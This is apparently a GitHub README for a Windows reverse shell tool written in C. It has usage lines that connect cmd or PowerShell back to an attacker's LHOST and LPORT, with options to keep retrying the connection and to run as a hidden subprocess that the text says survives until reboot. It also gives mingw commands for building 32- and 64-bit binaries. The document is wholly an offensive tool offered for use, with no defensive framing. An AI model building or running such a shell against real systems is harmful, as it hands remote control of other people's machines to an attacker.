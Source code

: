 # windows-rev-shell
An advanced windows reverse shell. Allows to specify the type of shell (cmd or powershell), can be programmed to automatically attempt to reconnect and can be spawned as subprocess to prevent blocking the terminal
## Usage
One shot <br>
`shell.exe LHOST LPORT <cmd|powershell> 0` <br>
Attempt to reconnect to the specified IP. The last parameter indicates the number of seconds between attempts <br>
`shell.exe LHOST LPORT <cmd|powershell> ATTEMPT_DELAY` <br>
One shot reverse shell spawned as subprocess to keep the current terminal free. The process is disposed once the attacker closes the connection on his side<br>
`shell.exe LHOST LPORT <cmd|powershell> 0 s` <br>
Spawn a reverse shell subprocess that will periodically attempt to reconnect to the host. The process is indipendent from the original shell and will continue to exist until the machine is rebooted<br>
`shell.exe LHOST LPORT <cmd|powershell> ATTEMPT_DELAY s` <br>
## Building
32 Bit version <br>
`i686-w64-mingw32-gcc windows.c -o shell.exe -lws2_32` <br>
64 Bit version <br>
`x86_64-w64-mingw32-gcc windows.c -o shell.exe -lws2_32` <br>
